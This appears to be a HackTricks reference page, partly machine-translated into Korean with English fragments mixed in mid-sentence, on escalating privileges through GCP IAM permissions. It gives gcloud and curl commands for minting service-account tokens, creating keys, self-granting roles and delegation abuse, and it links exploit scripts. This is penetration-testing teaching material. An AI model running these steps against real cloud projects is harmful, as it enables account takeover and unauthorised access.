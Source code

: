 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

IAM에 대한 더 많은 정보는 다음에서 확인하세요:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

언급된 권한을 가진 공격자는 귀하에게 할당된 역할을 업데이트하고 다음과 같은 다른 리소스에 대한 추가 권한을 부여할 수 있습니다:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

An attacker with the mentioned permissions will be able to **request an access token that belongs to a Service Account**, so it's possible to request an access token of a Service Account with more privileges than ours.  
공격자는 언급된 권한을 가지고 **서비스 계정에 속하는 액세스 토큰을 요청할 수 있습니다**, 따라서 우리의 권한보다 더 많은 권한을 가진 서비스 계정의 액세스 토큰을 요청할 수 있습니다.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

An attacker with the mentioned permissions will be able to **create a user-managed key for a Service Account**, which will allow us to access GCP as that Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
여기에서 [**취약한 환경의 생성, 악용 및 정리를 자동화하는 스크립트**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh)를 찾을 수 있으며, 이 권한을 악용하기 위한 파이썬 스크립트는 [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py)에서 확인할 수 있습니다. 더 많은 정보는 [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)를 확인하세요.

**`iam.serviceAccountKeys.update`는 SA의 키를 수정하는 데 작동하지 않습니다**. 그렇게 하려면 `iam.serviceAccountKeys.create` 권한도 필요합니다.

### `iam.serviceAccounts.implicitDelegation`

**`iam.serviceAccounts.implicitDelegation`** 권한이 있는 서비스 계정이 **`iam.serviceAccounts.getAccessToken`** 권한을 가진 다른 서비스 계정이 있다면, implicitDelegation을 사용하여 **해당 다른 서비스 계정을 위한 토큰을 생성할 수 있습니다**. 설명을 돕기 위한 다이어그램은 다음과 같습니다.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**문서**](https://cloud.google.com/iam/docs/understanding-service-accounts)에 따르면, `gcloud`의 위임은 [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) 메서드를 사용하여 토큰을 생성하는 데만 작동합니다. 따라서 API를 직접 사용하여 토큰을 얻는 방법은 다음과 같습니다:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **GCP에서 임의의 페이로드 서명**. So it'll be possible to **SA의 서명되지 않은 JWT를 생성한 다음, 이를 블롭으로 보내어 우리가 목표로 하는 SA에 의해 JWT가 서명되도록 할 수 있습니다**. For more information [**이것을 읽어보세요**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **형식이 올바른 JSON 웹 토큰(JWT) 서명**. The difference with the previous method is that **JWT를 포함하는 블롭을 구글에 서명하게 하는 대신, 이미 JWT를 기대하는 signJWT 메서드를 사용합니다**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**취약한 환경의 생성, 악용 및 정리 여기**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**여기**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**원본 연구**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **서비스 계정에 IAM 정책 추가**. You can abuse it to **자신에게** 서비스 계정을 가장하는 데 필요한 권한을 부여할 수 있습니다. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

The **iam.serviceAccounts.actAs permission**는 **AWS의 iam:PassRole permission**과 유사합니다. 이는 Compute Engine 인스턴스를 시작하는 것과 같은 작업을 실행하는 데 필수적이며, Service Account로 "actAs"할 수 있는 능력을 부여하여 안전한 권한 관리를 보장합니다. 이 권한이 없으면 사용자가 부당한 접근을 할 수 있습니다. 또한, **iam.serviceAccounts.actAs**를 악용하는 것은 다양한 방법을 포함하며, 각 방법은 특정 권한 세트를 요구합니다. 이는 단 하나의 권한만 필요한 다른 방법과 대조적입니다.

#### Service account impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Service account를 가장하는 것은 **새롭고 더 나은 권한을 얻는 데 매우 유용**할 수 있습니다. 다른 service account를 [가장하는 세 가지 방법](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account)이 있습니다:

* RSA 개인 키를 **사용한 인증** (위에서 다룸)
* Cloud IAM 정책을 **사용한 권한 부여** (여기서 다룸)
* GCP 서비스에서 **작업 배포** (사용자 계정의 손상에 더 적용 가능)

### `iam.serviceAccounts.getOpenIdToken`

언급된 권한을 가진 공격자는 OpenID JWT를 생성할 수 있습니다. 이는 신원을 주장하는 데 사용되며, 자원에 대한 암묵적인 권한 부여를 반드시 포함하지는 않습니다.

이 [**흥미로운 게시물**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b)에 따르면, 청중(토큰을 사용하여 인증하려는 서비스)을 지정해야 하며, Google이 서명한 JWT를 수신하여 서비스 계정과 JWT의 청중을 나타냅니다.

접근 권한이 있는 경우 OpenIDToken을 생성할 수 있습니다:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
그럼 다음과 같이 서비스를 액세스하는 데 사용할 수 있습니다:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
일부 서비스는 이러한 종류의 토큰을 통한 인증을 지원합니다:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDC를 사용하는 경우)

서비스 계정을 대신하여 OpenID 토큰을 생성하는 방법에 대한 예시는 [**여기**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py)에서 확인할 수 있습니다.

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
